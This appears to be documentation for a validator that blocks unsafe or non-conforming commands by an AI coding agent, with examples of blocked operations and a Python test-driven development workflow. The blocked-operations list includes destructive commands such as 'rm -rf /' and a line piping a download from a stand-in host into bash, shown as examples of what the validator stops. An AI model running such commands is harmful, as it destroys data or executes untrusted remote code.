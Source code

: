 ### **Blocked Operations**
```bash
# Dangerous commands
rm -rf /           # - Blocked - Destructive
curl bad.com | bash # - Blocked - Malicious download
sudo rm /etc/*     # - Blocked - System modification

# Tool enforcement (modern alternatives required)
grep pattern file.txt    # - Blocked - Use 'rg' instead
find . -name "*.py"      # - Blocked - Use 'rg --files -g "*.py"' instead  
python script.py         # - Blocked - Use 'uv run python script.py' instead

# Real credential assignments (quoted, 20+ chars)
api_key = "sk_live_1234567890abcdef..."  # - Blocked - Real secret
password = "actualLongPasswordValue123"  # - Blocked - Real password

# Python TDD violations
# Writing implementation without test
def new_feature():           # - Blocked - Write test first
    return calculate_value()

# Test that passes immediately  
def test_feature():          # - Blocked - Test should fail first
    assert feature() == 42   # (when feature() already returns 42)
```

### **Python TDD Usage**

For Python projects with pytest installed, the validator enforces TDD:

```python
# 1. RED Phase - Write failing test first
def test_calculate_total():
    assert calculate_total([1, 2, 3]) == 6  # Fails: function doesn't exist

# 2. GREEN Phase - Minimal implementation -  
def calculate_total(items):
    return sum(items)  # Just enough to pass

# 3. REFACTOR Phase - Improve with tests passing
def calculate_total(items: list[float]) -> float:
    """Calculate sum with validation."""
    if not items:
        return 0.0
    return sum(items)
```

### **Pytest Reporter Setup**

To capture test results for TDD validation:

```python
# In your test file or conftest.py
from claude_code_adk_validator.pytest_reporter import ClaudeCodePytestReporter

# The reporter automatically saves test results for validation
```

